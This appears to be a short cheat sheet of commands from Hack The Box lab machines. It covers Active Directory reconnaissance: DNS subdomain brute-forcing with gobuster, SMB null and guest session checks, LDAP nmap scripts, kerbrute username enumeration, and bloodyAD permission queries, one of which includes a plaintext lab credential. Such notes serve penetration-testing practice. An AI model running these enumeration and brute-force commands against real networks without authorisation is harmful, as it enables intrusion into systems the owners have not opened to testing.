 ## Querying DNS  
```shell
gobuster dns -d manager.htb -t 25 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
```
   
## Check for guest and null access  
```shell
smbclient -U '%' -L //10.10.11.236 && smbclient -U 'guest%' -L //  
enum4linux-ng -a -u "" -p "" 10.10.11.236 && enum4linux -a -u "guest" -p "" 10.10.11.236  
```
## Enumerate ldap  
```shell
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.11.236
```
## Bruteforce and enumerate AD accounts through Kerberos Pre-auth  
```shell
./kerbrute userenum --dc 10.10.11.236 -d manager.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

# Checking permissions of a user

```bash
bloodyAD -d domain.local --host ip -u username -p password get object administrator --resolve-sd
```

bloodyAD --host dc01.infiltrator.htb --dc-ip 10.129.20.226 -u l.clark -p 'WAT?watismypass!' -d infiltrator.htbs get children